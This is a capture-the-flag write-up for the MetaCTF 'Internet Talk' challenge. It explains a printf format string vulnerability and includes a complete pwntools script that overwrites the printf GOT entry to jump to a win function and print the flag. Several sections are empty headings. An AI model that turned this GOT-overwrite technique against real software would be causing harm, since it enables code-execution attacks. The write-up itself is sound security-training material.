

# Internet Talk - Writeup

---

## Challenge Description


---

## Exploit Demo

This demo shows the exploitation flow:


---

## Challenge Summary

This challenge involves exploiting a **format string vulnerability** in `printf(s)` to **overwrite a GOT entry**. The goal is to redirect execution to a function that reads and prints the flag.

---

## Binary Information

```bash
$ file leet
```


```bash
$ pwn checksec leet
```


---

Here's a concise version using **GOT overwrite**:

---

## Static Analysis (IDA pro)

The program contains a **format string vulnerability** in `printf(s);`, where user input is passed directly as the format string. This allows us to overwrite memory, including the **Global Offset Table (GOT)**.


By exploiting this, we can **overwrite a GOT entry** (e.g., `puts` or `printf`) and redirect execution to the function that reads and prints the flag from `flag.txt`.


---

## Exploit Strategy

1. **Vulnerability**: Exploit the format string vulnerability in `printf(s)` to overwrite memory.
2. **GOT Overwrite**: Use `%n` to overwrite the GOT entry for `printf` with the address of the **win function**.
3. **Payload**: Generate the payload using `fmtstr_payload`, targeting the `printf` GOT entry.
4. **Redirect Execution**: Send the payload to execute the **win function** that prints the flag.
5. **Capture Flag**: Extract the flag from the output.

This strategy redirects program execution to the flag-reading function using **GOT overwrite** via the format string vulnerability.

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template leet --host host5.metaproblems.com --port 5040
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'leet')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'host5.metaproblems.com'
port = int(args.PORT or 5040)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak *0x{exe.entry:x}
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     i386-32-little
# RELRO:      No RELRO
# Stack:      Canary found
# NX:         NX enabled
# PIE:        No PIE (0x8048000)

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

win_addr = p32(0x80491f6)
payload = fmtstr_payload(7, {exe.got['printf']: win_addr})
io.sendline(payload)
io.recvuntil(b'Speak:\n\n')
#flag = io.recvline().strip().strip().decode()
flag = io.recvregex(br'MetaCTF{.*?}')
log.success(f"FLAG : \033[1;33m{flag.decode()}\033[1;0m")

```

---

## Exploit Output



---

## Vulnerability Summary

The program is vulnerable to a **format string vulnerability** in the call to `printf(s);`, where user-controlled input (`s`) is directly used as the format string. This allows an attacker to:

1. **Read memory**: Using format specifiers like `%x` or `%s` to leak information from the stack.
2. **Write to memory**: Exploiting `%n` to overwrite memory, including entries in the **Global Offset Table (GOT)**.

In this case, the attacker can overwrite the `printf` GOT entry, redirecting the program's execution to the **win function** that reads and prints the flag.

---

## Flag

```
MetaCTF{1337_h@kkaR}
```
